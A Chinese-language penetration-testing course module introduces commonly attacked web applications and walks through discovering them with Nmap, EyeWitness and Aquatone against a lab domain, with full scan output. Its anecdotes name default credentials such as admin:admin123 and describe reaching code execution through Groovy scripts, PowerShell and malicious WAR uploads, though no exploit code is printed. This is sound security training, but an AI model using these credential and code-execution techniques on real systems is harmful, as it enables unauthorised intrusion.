# 一. 攻击常见应用程序简介

## 1. 前言

在渗透测试过程中，我们遇到的几乎所有环境中都普遍存在基于 Web 的应用程序。在评估过程中，我们会接触到各种各样的 Web 应用程序，例如内容管理系统 (CMS)、自定义 Web 应用程序、开发人员和系统管理员使用的内部网门户、代码库、网络监控工具、工单系统、维基、知识库、问题跟踪系统、Servlet 容器应用程序等等。在许多不同的环境中发现相同的应用程序是很常见的。虽然某个应用程序在一个环境中可能不存在漏洞，但在另一个环境中可能存在配置错误或未打补丁的情况。评估人员需要熟练掌握本模块中介绍的常见应用程序的枚举和攻击方法。

Web 应用程序是可通过 Web 浏览器访问的交互式应用程序。Web 应用程序通常采用客户端-服务器架构来运行和处理交互。它们通常由运行在客户端（浏览器）的前端组件（网站界面，或“用户所见”）和运行在服务器端（后端服务器/数据库）的后端组件（Web 应用程序源代码）组成。要深入了解 Web 应用程序的结构和功能，请参阅 “Web 应用程序简介” 模块。

所有类型的 Web 应用程序（商业、开源和定制）都可能遭受相同类型的漏洞和配置错误，即 [OWASP Top 10](https://owasp.org/www-project-top-ten/) 中列出的十大 Web 应用程序风险。虽然我们可能会遇到许多常见应用程序的易受攻击版本，这些版本存在已知的（公开的）漏洞，例如 SQL 注入、XSS、远程代码执行漏洞、本地文件读取和不受限制的文件上传，但同样重要的是，我们要了解如何滥用许多此类应用程序的内置功能来实现远程代码执行。

随着企业不断加强外部安全防护并限制暴露的服务，Web 应用程序正成为恶意攻击者和渗透测试人员更具吸引力的目标。越来越多的公司正在转向远程办公，并将应用程序（有意或无意地）暴露在外部网络中。本模块讨论的应用程序通常与暴露在内部网络中的应用程序一样容易暴露在外部网络中。这些应用程序可能成为外部评估期间入侵内部环境的立足点，也可能成为内部评估期间需要向客户报告的立足点、横向移动或其他问题。

[2021 年应用安全状况](https://blog.barracuda.com/2021/05/18/report-the-state-of-application-security-in-2021/)研究调查由 Barracuda 委托开展，旨在收集应用安全相关决策者的信息。该调查收集了来自全球 750 位员工人数在 500 人及以上公司的决策者的反馈。调查结果令人震惊：72% 的受访者表示其所在机构至少遭受过一次因应用漏洞导致的安全攻击，32% 的受访者表示遭受过两次安全攻击，14% 的受访者表示遭受过三次安全攻击。受访机构面临的挑战主要体现在以下几个方面：机器人攻击 (43%)、软件供应链攻击 (39%)、漏洞检测 (38%) 和 API 安全 (37%)。本模块将重点关注开源和商业应用程序（本模块演示的是免费版本）中已知的漏洞和配置错误，这些漏洞和错误构成了机构经常面临的成功攻击的很大一部分。

## 2.常见应用程序分类

本模块将深入研究几种常见的应用程序，并简要介绍一些不太常见（但仍然经常出现）的应用程序。在特定评估过程中，我们可能会遇到一些应用程序类别，并可以利用它们来获取立足点或访问敏感数据，以下列举部分类别：

| **分类**                                                                                   | **Applications**                                                 |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------- |
| [网站内容管理](https://enlyft.com/tech/web-content-management)                                      | Joomla, Drupal, WordPress, DotNetNuke, etc.                            |
| [应用服务器](https://enlyft.com/tech/application-servers)                                           | Apache Tomcat, Phusion Passenger, Oracle WebLogic, IBM WebSphere, etc. |
| [安全信息和事件管理 (SIEM)](https://enlyft.com/tech/security-information-and-event-management-siem) | Splunk, Trustwave, LogRhythm, etc.                                     |
| [网络管理](https://enlyft.com/tech/network-management)                                              | PRTG Network Monitor, ManageEngine Opmanger, etc.                      |
| [信息技术管理](https://enlyft.com/tech/it-management-software)                                      | Nagios, Puppet, Zabbix, ManageEngine ServiceDesk Plus, etc.            |
| [软件框架](https://enlyft.com/tech/software-frameworks)                                             | JBoss, Axis2, etc.                                                     |
| [客户服务管理](https://enlyft.com/tech/customer-service-management)                                 | osTicket, Zendesk, etc.                                                |
| [搜索引擎](https://enlyft.com/tech/search-engines)                                                  | Elasticsearch, Apache Solr, etc.                                       |
| [软件配置管理](https://enlyft.com/tech/software-configuration-management)                           | Atlassian JIRA, GitHub, GitLab, Bugzilla, Bugsnag, Bitbucket, etc.     |
| [软件开发工具](https://enlyft.com/tech/software-development-tools)                                  | Jenkins, Atlassian Confluence, phpMyAdmin, etc.                        |
| [企业应用集成](https://enlyft.com/tech/enterprise-application-integration)                          | Oracle Fusion Middleware, BizTalk Server, Apache ActiveMQ, etc.        |

如您在上方各类别链接中所见，我们在评估过程中可能会遇到[数千种应用程序](https://enlyft.com/tech/) 。其中许多应用程序存在公开已知的漏洞，或者其功能可被滥用，从而导致远程代码执行、窃取凭证或访问敏感信息（无论凭证是否有效）。本模块将介绍我们在内部和外部评估中反复遇到的最常见的应用程序。

我们来看看 Enlyft 的网站。例如，我们可以看到，他们收集了超过 370 万家使用 WordPress 的公司的数据，这在全球所有受访公司中，[WordPress](https://enlyft.com/tech/products/wordpress) 占据了近 70%的 Web 内容管理应用市场份额。在 SIEM 工具方面，有 22174 家受访公司使用了 [Splunk](https://enlyft.com/tech/products/splunk) ，占据了近 30%的市场份额。虽然我们将要介绍的其他应用在其各自类别中的市场份额要小得多，但我仍然经常看到它们，而且这里学到的技能可以应用到许多不同的场景中。

## 3.学习方法

在学习本模块的示例、问题和技能评估时，请务必用心理解这些应用程序的工作原理以及特定漏洞和配置错误存在的原因 ，而不仅仅是为了快速完成模块而照搬示例。这些技能将使您受益匪浅，并可能帮助您在首次遇到的评估中识别不同应用程序的攻击路径。我至今仍然会遇到一些只见过几次甚至从未见过的应用程序，而以这种思维方式来学习它们常常能帮助我成功发起攻击或找到滥用内置功能的方法。

例如，在一次外部渗透测试中，我遇到了 Sonatype 公司的 [Nexus Repository 开源软件 ](https://www.sonatype.com/products/repository-oss)，之前从未见过。我很快发现该版本的默认管理员凭据 `admin:admin123` 没有更改，因此我能够登录并探索其管理功能。在这个版本中，我以已认证用户的身份利用 API 获得了系统上的远程代码执行权限。在另一次评估中，我再次遇到了这个应用程序，并再次使用默认凭据登录。这次，我利用了 [Tasks](https://help.sonatype.com/en/tasks.html#UUID-53669de9-914f-58da-0ba3-9e129cd2e3de_id_Tasks-Admin-Executescript) 功能（在我第一次遇到该应用程序时该功能被禁用），并用 Java 语法编写了一个简单的 [Groovy](https://groovy-lang.org/)[ 脚本](https://help.sonatype.com/en/writing-scripts.html)来执行脚本，从而获得了远程代码执行权限。这与我们稍后将在本模块中利用 Jenkins[ 脚本控制台的](https://www.jenkins.io/doc/book/managing/script-console/)方法类似。我还遇到过许多其他应用程序，例如 ManageEngine 公司的 [OpManager](https://www.manageengine.com/products/applications_manager/me-opmanager-monitoring.html) ，它们允许您以应用程序运行的用户身份（通常是功能强大的 NT AUTHORITY\SYSTEM 帐户）运行脚本，从而获得立足点。在内部和外部评估期间，我们绝不能忽视应用程序，因为在相对完善的环境中，这可能是我们唯一的“切入点”。

## 4. 常用应用程序介绍

我通常会遇到以下至少一种应用程序，我们将在本模块的各个部分进行深入探讨。虽然我们无法涵盖所有可能遇到的应用程序，但本模块教授的技能将使我们能够以批判的眼光看待所有应用程序，并评估其是否存在公开漏洞和配置错误。

| Application          | Description                                                                                                                                                                                                                                                                                                                                                                         |
| -------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| WordPress            | [WordPress](https://wordpress.org/)  是一款开源内容管理系统（CMS），可用于多种用途，常用来搭建博客和论坛。它高度可定制且对搜索引擎优化（SEO）友好，因此深受企业青睐。不过，其高度可定制性和可扩展性，也使其容易因第三方主题和插件产生安全漏洞。WordPress 基于 PHP 开发，通常运行在 Apache 服务器上，后端数据库采用 MySQL。                                                             |
| Drupal               | [Drupal](https://www.drupal.org/) 是另一款开源内容管理系统，在企业和开发者中广受欢迎。该系统基于 PHP 开发，支持使用 MySQL 或 PostgreSQL 作为后端数据库；此外，若未安装数据库管理系统，也可使用 SQLite。与 WordPress 类似，用户可通过主题和模块扩展网站功能。                                                                                                                           |
| Joomla               | [Joomla](https://www.joomla.org/) 同样是基于 PHP 开发的开源内容管理系统，默认使用 MySQL 数据库，也可适配 PostgreSQL 或 SQLite 运行。它可用于搭建博客、论坛、电商网站等多种平台，支持通过主题和扩展插件进行深度定制。据统计，Joomla 是全球使用量第三的内容管理系统，仅次于 WordPress 和 Shopify。                                                                                       |
| Tomcat               | [Apache Tomcat](https://tomcat.apache.org/) Apache Tomcat 是一款开源 Web 服务器，用于托管基于 Java 开发的应用程序。Tomcat 最初设计用于运行 Java  Servlet 和 Java 服务器页面（JSP）脚本，随着各类 Java 开发框架的普及，其应用愈发广泛，目前被 Spring 等框架、Gradle 等工具广泛使用。                                                                                                    |
| Jenkins              | [Jenkins](https://jenkins.io/) Jenkins 是一款基于 Java 开发的开源自动化服务器，可帮助开发者持续构建、测试软件项目。它属于服务器端系统，运行在 Tomcat 等 Servlet 容器中。多年来，研究人员已发现 Jenkins 存在多个安全漏洞，其中部分漏洞可在无需身份验证的情况下实现远程代码执行。                                                                                                        |
| Splunk               | Splunk Splunk 是一款日志分析工具，用于数据的采集、分析与可视化展示。尽管其最初并非设计为安全信息与事件管理（SIEM）工具，但常被用于安全监控和业务分析。Splunk 部署环境中通常存储敏感数据，一旦被入侵，会为攻击者提供大量有价值信息。从历史漏洞来看，Splunk 已知高危漏洞数量较少，仅存在信息泄露漏洞（CVE-2018-11409），以及极旧版本中需身份验证的远程代码执行漏洞（CVE-2011-4642）。 |
| PRTG Network Monitor | [PRTG Network Monitor](https://www.paessler.com/prtg) PRTG 网络监控器是一款无代理网络监控系统，可监控路由器、交换机、服务器等各类设备的运行时长、带宽占用等指标。该系统通过自动发现模式扫描网络，再利用 ICMP、WMI、SNMP、NetFlow 等协议与设备通信并采集数据。PRTG 基于 Delphi 语言开发。                                                                                               |
| osTicket             | [osTicket](https://osticket.com/) osTicket 是一款应用广泛的开源客服工单系统，可管理通过邮件、电话、网页端提交的客户服务工单。该系统基于 PHP 开发，可运行在 Apache 或 IIS 服务器上，后端数据库采用 MySQL。                                                                                                                                                                              |
| GitLab               | [GitLab](https://about.gitlab.com/)GitLab 是一款开源软件开发平台，集成了 Git 仓库管理、版本控制、问题跟踪、代码评审、持续集成与部署等功能。其最初基于 Ruby 开发，目前采用 Ruby on Rails、Go、Vue.js 等技术栈。GitLab 分为社区版（免费）和企业版两个版本。                                                                                                                              |

# 二. 应用程序发现与枚举

为有效管理网络，企业应当维护（并持续更新）资产清单，清单需包含环境内所有联网设备（服务器、工作站、网络设备等）、已安装软件及正在使用的应用程序。如果企业不清楚网络中存在哪些资产，又如何明确需要防护的对象、以及存在哪些潜在安全漏洞？
企业应当掌握以下信息：应用程序是本地安装还是由第三方托管、当前补丁版本、是否已达或即将达生命周期终点；能够发现网络中的违规应用（即 “影子 IT”）；同时对各应用具备足够的可见性，确保其通过强密码（非默认密码）完成充分加固，理想情况下还应启用多因素认证。部分应用的管理后台可做访问限制，仅允许特定 IP 地址或本机（localhost）访问。
现实情况是，许多企业并不完全掌握网络中的所有资产，部分企业甚至几乎没有任何可见性，而我们可以为其提供相关支持。我们执行的资产枚举工作，能极大帮助客户完善或从零搭建资产清单。我们往往能发现以下问题：被遗忘的应用、试用许可已过期且转为无需认证版本的演示软件（例如 Splunk）、使用默认 / 弱口令的应用、未授权 / 配置错误的应用，以及存在公开漏洞的应用。
我们可将这些数据整合后交付给客户，既体现在报告的漏洞发现项中（例如某应用使用admin:admin默认口令），也可通过附录形式呈现（如识别到的服务与对应主机映射清单），或提供扫描原始数据作为补充。我们甚至可以更进一步，向客户培训我们日常使用的工具，帮助其开展定期、主动的网络侦察，在渗透测试人员 —— 或更糟的攻击者 —— 率先发现漏洞之前，自行定位安全缺口。
作为渗透测试人员，我们必须具备扎实的枚举能力，能够在信息极少甚至无信息的情况下（黑盒探测或仅提供一段 CIDR 网段）摸清任意网络的 “整体态势”。通常接入目标网络后，我们会先执行Ping 扫描识别存活主机；在此基础上开展针对性端口扫描，最终进行深度端口扫描，识别运行中的服务。在包含成百上千台主机的网络中，这类枚举数据会变得十分庞杂。假设我们使用 Nmap 执行端口扫描，识别常见 Web 服务，例如：

## 1. Nmap - 网络发现

```bash
$ nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list
```

我们可能会发现大量主机仅在 80 和 443 端口上运行着服务。我们该如何处理这些数据？在大型环境中手动筛选枚举数据将非常耗时，尤其是在大多数评估都有严格时间限制的情况下。逐个浏览每个 IP/主机名 + 端口也效率极低。

幸运的是，有很多优秀的工具可以极大地帮助我们完成这项工作。[EyeWitness ](https://github.com/FortyNorthSecurity/EyeWitness)和 [Aquatone](https://github.com/michenriksen/aquatone) 是每位测试人员都应该掌握的两款卓越工具。这两款工具都可以接收 Nmap 的原始 XML 扫描输出（Aquatone 还可以接收 Masscan 的 XML 输出；EyeWitness 可以接收 Nessus 的 XML 输出），并用于快速检查所有运行 Web 应用程序的主机，并截取每个主机的屏幕截图。然后，这些屏幕截图会被汇总成一份报告，我们可以在 Web 浏览器中查看该报告，从而评估 Web 攻击面。

这些截图可以帮助我们缩小潜在目标（可能多达数百台主机）的范围，并构建一个更有针对性的应用程序列表，以便我们花更多时间枚举和攻击这些应用程序。这些工具同时适用于 Windows 和 Linux 系统，因此我们可以在特定环境下选择任何操作系统作为攻击目标。

## 2. 做好整理工作

虽然我们会在单独的模块中讲解笔记记录、报告撰写与文档编制，但现在不妨趁此机会选定一款笔记工具（如果还没选好），并对其进行配置，以便更好地记录本阶段搜集到的各类数据。在「入门」模块中已经介绍过多款笔记工具，如果你目前还未做出选择，现在正是开始的好时机。OneNote、Evernote、Notion、Cherrytree 等都是不错的选择，最终选用哪款主要取决于个人习惯。
无论选择哪款工具，我们都应在现阶段搭建起自己的笔记记录方法论，并为不同类型的安全评估创建可复用的模板。
针对本章节内容，我会把笔记本中的「枚举与探测」板块拆分为独立的应用发现子模块。在该模块下，再进一步划分出：测试范围、各类扫描记录（Nmap、Nessus、Masscan 等）、应用截图、以及值得后续深入排查的重点 / 可疑主机等小节。
关键要点：我们执行的每一次扫描都必须标注时间戳，保存所有输出结果、完整的扫描命令，以及目标主机信息。后续若客户对评估期间观测到的扫描行为存在疑问，这些记录将非常有用。从一开始就保持条理、留存详细日志与笔记，会极大减轻最终报告的撰写压力。
我通常会在评估开始时，同步搭建好报告框架与笔记本结构，这样在等待扫描完成的间隙，就可以提前填充报告的部分内容。这些准备工作能在项目收尾阶段节省大量时间，让我们有更多精力投入到更有价值的环节（测试配置缺陷与利用漏洞），同时也能保证工作的全面细致。

以下是一个适用于探测阶段的 OneNote 目录结构示例（同样适用于其他笔记工具）：

外部渗透测试 – <客户名称>

* 测试范围（包含在测 IP 地址 / 网段、URL、脆弱主机、测试时间段，以及其他需要随时查阅的限制或相关信息）
* 客户对接人
* 测试凭证
* 探测 / 枚举
  * 扫描记录
  * 存活主机
* 应用发现
  * 扫描记录
  * 重点 / 可疑主机
* 漏洞利用
  * <主机名或 IP>
  * <主机名或 IP>
* 后渗透利用
  * <主机名或 IP>
  * <主机名或 IP>

在整个模块学习中我们会反复参考这一结构，因此非常建议你照着这个框架搭建笔记，并像参与真实项目一样记录本模块的所有学习内容。这有助于打磨你的文档编制能力 —— 这是一名优秀渗透测试人员的必备技能。当进行本模块末尾的三项技能评估时，各章节的笔记会提供极大帮助；在后续渗透测试职业路径的学习中，这些积累也会发挥重要作用。

## 3. 初始枚举

假设客户提供给我们以下范围：

```shell
$ cat scope_list 

app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog-dev.inlanefreight.local
blog.inlanefreight.local
app-dev.inlanefreight.local
jenkins-dev.inlanefreight.local
jenkins.inlanefreight.local
web01.inlanefreight.local
gitlab-dev.inlanefreight.local
gitlab.inlanefreight.local
support-dev.inlanefreight.local
support.inlanefreight.local
inlanefreight.local
10.129.201.50
```

我们可以先用 Nmap 扫描常用 Web 端口。

我通常会先扫描端口 80,443,8000,8080,8180,8888,10000 ，然后根据第一次扫描的结果，使用 EyeWitness 或 Aquatone（或两者都用）对初始扫描结果进行进一步分析。在查看常用端口的截图报告时，我可能会根据扫描范围的大小，对前 10,000 个端口或所有 TCP 端口进行更彻底的 Nmap 扫描。由于枚举是一个迭代过程，我们会对后续的 Nmap 扫描结果进行网页截图，以确保最大程度的覆盖。

在进行非侵入式全面渗透测试时，我通常也会运行 Nessus 扫描，以确保客户的每一分钱都物有所值。但我们必须能够在不依赖扫描工具的情况下进行评估。尽管大多数评估都有时间限制（而且通常范围与环境规模不符），但我们可以通过建立一套可重复且全面的枚举方法，并将其应用于我们覆盖的所有环境，从而为客户创造最大价值。我们需要在信息收集/发现阶段保持高效，同时避免走捷径，以免遗漏关键缺陷。每个人的方法和偏好工具都会略有不同，我们应该努力找到一种既适合我们自身又能达成相同最终目标的方法。

我们在非侵入式渗透测试过程中执行的所有扫描都是为了收集数据，作为我们人工验证和人工测试流程的输入。我们不应完全依赖扫描器，因为渗透测试中的人为因素至关重要。我们通常只有通过彻底的人工测试才能发现最独特、最严重的漏洞和配置错误。

让我们使用 Nmap 扫描来深入分析上面提到的范围列表，这通常可以发现环境中的大多数 Web 应用程序。当然，我们稍后会进行更深入的扫描，但这将为我们提供一个很好的起点。

```shell
$ sudo  nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list 

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-07 21:49 EDT
Stats: 0:00:07 elapsed; 1 hosts completed (4 up), 4 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.24% done; ETC: 21:49 (0:00:01 remaining)

Nmap scan report for app.inlanefreight.local (10.129.42.195)
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.12s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
8009/tcp open  ajp13
8080/tcp open  http-proxy
8180/tcp open  unknown
8888/tcp open  sun-answerbook

Nmap scan report for gitlab-dev.inlanefreight.local (10.129.201.88)
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8081/tcp open  blackice-icecap

Nmap scan report for 10.129.201.50
Host is up (0.13s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
8000/tcp open  http-alt
8080/tcp open  http-proxy
8089/tcp open  unknown

<SNIP>

```

可以看到，我们识别出多台主机在不同端口上运行着 Web 服务。从结果中可以初步判断，其中一台主机为 Windows 系统，其余为 Linux 系统（但现阶段还无法 100% 确定）。同时也要格外留意主机名。

在本实验环境中，我们通过虚拟主机（Vhosts）来模拟一家公司的子域名。FQDN 中包含 dev 的主机值得重点记录，这类主机很可能运行着未经过充分测试的功能，或是开启了调试模式等配置。有些主机名则不会透露太多信息，比如 app.inlanefreight.local，我们只能推断它是一台应用服务器，还需要进一步枚举才能确定上面具体运行着哪些应用。
我们还应当把 gitlab-dev.inlanefreight.local 加入 “重点关注主机” 清单，在探测阶段完成后对其进行深入分析。这类主机往往可能开放公开的 Git 仓库，里面可能包含敏感信息，例如账号密码，或是能引导我们发现其他子域名 / 虚拟主机的线索。在实际测试中，遇到无需管理员审核即可自行注册账号的 GitLab 实例并不少见，登录后还可能发现更多内部仓库。同时也值得检查历史提交记录，看其中是否遗留了密码等敏感数据 —— 这部分内容我们会在本模块后续深入讲解 GitLab 时再详细展开。

对其中一台主机进一步执行 Nmap 服务识别扫描（`-sV`），针对默认的前 1000 个端口进行探测，能让我们更清楚地了解该 Web 服务器上运行的服务详情。

```bash
$ sudo nmap --open -sV 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-07 21:58 EDT
Nmap scan report for 10.129.201.50
Host is up (0.13s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd (free license; remote login disabled)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.63 seconds
```

从上面的输出可以看出，IIS Web 服务器运行在默认端口 80 上， Splunk 似乎运行在端口 8000/8089 上，而 PRTG Network Monitor 则运行在端口 8080 上。如果是在中大型环境中，这种枚举方式效率低下，可能会导致我们遗漏对项目成功至关重要的 Web 应用程序。

## 4.利用EyeWitness工具

首先要介绍的是 EyeWitness。如前所述，EyeWitness 可以读取 Nmap 和 Nessus 输出的 XML 文件，并借助 Selenium 对各个端口上的 Web 应用进行截图，生成一份包含截图的报告。
它还能更进一步：在可行的情况下对应用进行分类、识别应用指纹，并根据识别出的应用给出对应的默认口令建议。你也可以直接给它一份 IP 地址或 URL 列表，让它自动为每条记录加上 http:// 和 https:// 前缀。它会对 IP 进行 DNS 解析，还可以指定一组端口，尝试连接并对这些端口上的服务进行截图。

我们可以通过 apt 安装 EyeWitness：

```bash
$ sudo apt install eyewitness
```

或者克隆[代码库](https://github.com/FortyNorthSecurity/EyeWitness) ，导航到 Python/setup 目录并运行 setup.sh 安装脚本。EyeWitness 也可以在 Docker 容器中运行，并且提供 Windows 版本，可以使用 Visual Studio 进行编译。

运行 eyewitness -h 将显示我们可用的选项,让我们运行默认的 --web 选项，以 Nmap 发现扫描的 XML 输出作为输入来截取屏幕截图。

```bash
$ eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness

################################################################################
#                                  EyeWitness                                  #
################################################################################
#           FortyNorth Security - https://www.fortynorthsecurity.com           #
################################################################################

Starting Web Requests (26 Hosts)
Attempting to screenshot http://app.inlanefreight.local
Attempting to screenshot http://app-dev.inlanefreight.local
Attempting to screenshot http://app-dev.inlanefreight.local:8000
Attempting to screenshot http://app-dev.inlanefreight.local:8080
Attempting to screenshot http://gitlab-dev.inlanefreight.local
Attempting to screenshot http://10.129.201.50
Attempting to screenshot http://10.129.201.50:8000
Attempting to screenshot http://10.129.201.50:8080
Attempting to screenshot http://dev.inlanefreight.local
Attempting to screenshot http://jenkins-dev.inlanefreight.local
Attempting to screenshot http://jenkins-dev.inlanefreight.local:8000
Attempting to screenshot http://jenkins-dev.inlanefreight.local:8080
Attempting to screenshot http://support-dev.inlanefreight.local
Attempting to screenshot http://drupal-dev.inlanefreight.local
[*] Hit timeout limit when connecting to http://10.129.201.50:8000, retrying
Attempting to screenshot http://jenkins.inlanefreight.local
Attempting to screenshot http://jenkins.inlanefreight.local:8000
Attempting to screenshot http://jenkins.inlanefreight.local:8080
Attempting to screenshot http://support.inlanefreight.local
[*] Completed 15 out of 26 services
Attempting to screenshot http://drupal-qa.inlanefreight.local
Attempting to screenshot http://web01.inlanefreight.local
Attempting to screenshot http://web01.inlanefreight.local:8000
Attempting to screenshot http://web01.inlanefreight.local:8080
Attempting to screenshot http://inlanefreight.local
Attempting to screenshot http://drupal-acc.inlanefreight.local
Attempting to screenshot http://drupal.inlanefreight.local
Attempting to screenshot http://blog-dev.inlanefreight.local
Finished in 57.859838008880615 seconds

[*] Done! Report written in the /home/mrb3n/Projects/inlanfreight/inlanefreight_eyewitness folder!
Would you like to open the report now? [Y/n]
```

## 5. 使用 Aquatone

如前所述， [Aquatone](https://github.com/michenriksen/aquatone) 与 EyeWitness 类似，它可以通过提供主机列表的 .txt 文件或带有 -nmap 参数的 Nmap .xml 文件来截取屏幕截图。我们可以自行编译 Aquatone，也可以下载预编译的二进制文件。下载二进制文件后，只需解压即可使用。

> 注意： Aquatone 目前正在一个新的分支中进行积极开发，重点在于改进和增强功能。请参阅代码仓库中提供的安装指南。

在这个例子中，我们向该工具提供相同的 web_discovery.xml Nmap 输出，并指定 -nmap 标志，然后就可以开始使用了。

```bash
$ cat web_discovery.xml | ./aquatone -nmap

aquatone v1.7.0 started at 2021-09-07T22:31:03-04:00

Targets    : 65
Threads    : 6
Ports      : 80, 443, 8000, 8080, 8443
Output dir : .

http://web01.inlanefreight.local:8000/: 403 Forbidden
http://app.inlanefreight.local/: 200 OK
http://jenkins.inlanefreight.local/: 403 Forbidden
http://app-dev.inlanefreight.local/: 200 
http://app-dev.inlanefreight.local/: 200 
http://app-dev.inlanefreight.local:8000/: 403 Forbidden
http://jenkins.inlanefreight.local:8000/: 403 Forbidden
http://web01.inlanefreight.local:8080/: 200 
http://app-dev.inlanefreight.local:8000/: 403 Forbidden
http://10.129.201.50:8000/: 200 OK

<SNIP>

http://web01.inlanefreight.local:8000/: screenshot successful
http://app.inlanefreight.local/: screenshot successful
http://app-dev.inlanefreight.local/: screenshot successful
http://jenkins.inlanefreight.local/: screenshot successful
http://app-dev.inlanefreight.local/: screenshot successful
http://app-dev.inlanefreight.local:8000/: screenshot successful
http://jenkins.inlanefreight.local:8000/: screenshot successful
http://app-dev.inlanefreight.local:8000/: screenshot successful
http://app-dev.inlanefreight.local:8080/: screenshot successful
http://app.inlanefreight.local/: screenshot successful

<SNIP>

Calculating page structures... done
Clustering similar pages... done
Generating HTML report... done

Writing session file...Time:
 - Started at  : 2021-09-07T22:31:03-04:00
 - Finished at : 2021-09-07T22:31:36-04:00
 - Duration    : 33s

Requests:
 - Successful : 65
 - Failed     : 0

 - 2xx : 47
 - 3xx : 0
 - 4xx : 18
 - 5xx : 0

Screenshots:
 - Successful : 65
 - Failed     : 0

Wrote HTML report to: aquatone_report.html
```

## 6. 结果解读

即使只有上面提到的 26 台主机，这份报告也能帮我们节省时间。现在想象一下，如果环境有 500 台甚至 5000 台主机呢！打开报告后，我们发现报告是按类别组织的， High Value Targets 排在最前面，通常也是最值得攻击的主机。我曾在非常大的环境中运行过 EyeWitness，生成的报告有数百页，需要花费数小时才能看完。通常，这些大型报告中会隐藏着一些有趣的主机，因此值得仔细查看整个报告，并深入研究任何我们不熟悉的应用程序。在一次外部渗透测试中，我发现引言部分提到的 ManageEngine OpManager 应用程序就隐藏在一份非常大的报告中。这个实例配置了默认凭据 admin:admin ，并且完全暴露在互联网上。我能够登录并通过运行 PowerShell 脚本执行代码。OpManager 应用程序是在域管理员帐户的上下文中运行的，这导致内部网络完全被攻陷。

在以下报告中，我会立即对任何评估（尤其是在外部渗透测试中）中出现的 Tomcat 感到兴奋，并尝试使用默认凭据访问 /manager 和 /host-manager 端点。如果我们能够访问其中任何一个端点，我们就可以上传恶意 WAR 文件，并使用 [JSP ](https://en.wikipedia.org/wiki/Jakarta_Server_Pages)代码在底层主机上实现远程代码执行。本模块稍后将对此进行更详细的介绍。

